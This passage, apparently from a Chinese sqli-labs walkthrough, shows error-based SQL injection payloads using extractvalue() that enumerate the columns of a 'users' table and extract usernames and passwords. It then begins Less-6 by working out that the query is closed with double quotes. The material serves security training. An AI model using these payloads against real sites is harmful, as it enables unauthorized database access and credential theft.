 ![](https://img.yatjay.top/md/202203251643062.png)

爆列名

针对security数据库的user数据表，爆表名

```sql
?id=-1' and (extractvalue(1,concat(0x7e,(select column_name from information_schema.columns where table_name='users' and table_schema=database() limit 0,1),0x7e)))--+
```

**注意指定的表名users一定要加上单引号作为字符串，不能直接写**，并且使用limit对多条结果进行依次输出

得到数据库security数据库中的users表中的列名分别是id、username、password

![](https://img.yatjay.top/md/202203251643509.png)

查询指定数据，并且使用limit对多条结果进行依次输出

```sql
?id=-1' and (extractvalue(1,concat(0x7e,(select username from  users order by id limit 0,1),0x7e)))--+
```
![](https://img.yatjay.top/md/202203251643332.png)

```sql
?id=-1' and (extractvalue(1,concat(0x7e,(select password from  users order by id limit 0,1),0x7e)))--+
```
![](https://img.yatjay.top/md/202203251643550.png)

### Less-6

正常提交数据，界面显示 You are in...........

![](https://img.yatjay.top/md/202203251643762.png)

尝试添加单引号进行闭合发现没有作用

![](https://img.yatjay.top/md/202203251644906.png)

然后尝试双引号，出现语法报错

![](https://img.yatjay.top/md/202203251644492.png)

由报错信息可知该SQL语句出错在`...id="1"" limit 0,1`

![](https://img.yatjay.top/md/202203251644243.png)

由报错信息可知该SQL语句出错在`...id="1"" limit 0,1`

猜测源代码传参格式是` id = " $id " LIMIT 0,1`，即是使用双引号闭合

提交`?id=1" and "1"="1`可以成功闭合并成功执行

![](https://img.yatjay.top/md/202203251644575.png)
